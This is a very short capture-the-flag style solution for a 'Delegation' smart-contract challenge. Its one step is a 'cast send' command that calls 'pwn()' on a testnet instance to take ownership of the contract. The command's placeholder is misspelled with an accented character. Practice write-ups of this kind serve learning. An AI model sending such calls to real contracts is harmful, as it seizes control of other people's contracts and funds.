 # Delegation Solution

1) Call `pwn()`:

```
cast send `ìnstanceAddress` "pwn()" --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey
```
